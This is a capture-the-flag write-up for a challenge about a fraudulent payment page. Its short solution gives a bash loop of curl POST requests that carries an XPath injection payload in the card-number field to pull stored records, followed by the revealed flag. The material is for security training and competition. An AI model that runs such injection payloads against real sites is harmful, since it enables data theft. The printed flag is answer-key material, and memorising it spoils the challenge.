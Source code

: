#### Challenge:

Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our customers have come across this scam.

Identify all card numbers entered into the fraudulent webpage (we have to report incident and its details to CSIRT-TCC).

Download [fraudulent e-mail](./fraudulent_e-mail.zip ":ignore") (MD5 checksum `94c7696bed436cd63a490de4008d2022`).

May the Packet be with you!

---

#### Solution:

We are presented with payment web site. After tinkering with it we noticed that the `card number` field is vulnerable to `XPATH` injection.

```bash
{ for f in `seq 1 500`; do curl -Ss 'http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data "card-holder-name=aaa&card-number=//*[${f}]+//*&card-expires-date=10%2F2022&card-cvv=111&proceed-to-pay=" | grep "This"; done; } | grep FLAG
```

---

<details><summary>FLAG:</summary>

```
FLAG{0BF0-RREd-vAK3-1Ayi}
```

</details>
<br/>
